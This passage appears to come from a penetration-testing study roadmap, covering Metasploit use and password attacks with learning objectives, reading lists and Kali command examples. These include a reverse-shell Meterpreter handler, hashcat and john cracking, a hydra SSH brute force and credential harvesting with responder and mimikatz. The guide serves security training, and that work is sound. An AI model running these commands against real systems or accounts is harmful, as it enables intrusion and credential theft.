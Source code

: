 ## Stage 3: Exploitation Techniques (5-6 weeks)

### Metasploit Framework Mastery

#### Learning Objectives
- Master the Metasploit Framework architecture
- Learn to use advanced exploitation modules
- Understand payload generation and delivery
- Develop custom Metasploit modules

#### Resources
- **Reading**: "Metasploit: The Penetration Tester's Guide" by David Kennedy
- **Kali Linux Tools**:
  ```bash
  # Metasploit is pre-installed in Kali
  msfconsole
  
  # Database setup
  sudo msfdb init
  db_status
  
  # Workspace management
  workspace -a project_name
  
  # Advanced usage
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set LHOST your_ip
  set LPORT 4444
  exploit -j
  ```
- **Practice**: Exploit multiple vulnerabilities in a lab environment using Metasploit

### Password Attacks and Credential Harvesting

#### Learning Objectives
- Master password cracking techniques
- Learn to harvest and utilize credentials
- Understand password storage mechanisms
- Develop custom password cracking strategies

#### Resources
- **Reading**: "Password Attacks: Gaining Access" by SANS Institute
- **Kali Linux Tools**:
  ```bash
  # Password cracking tools (pre-installed in Kali)
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
  hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
  hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://target_ip
  
  # Credential harvesting
  responder -I eth0
  mimikatz (in Windows environments)
  ```
- **Practice**: Develop and test a comprehensive password attack strategy against different authentication mechanisms
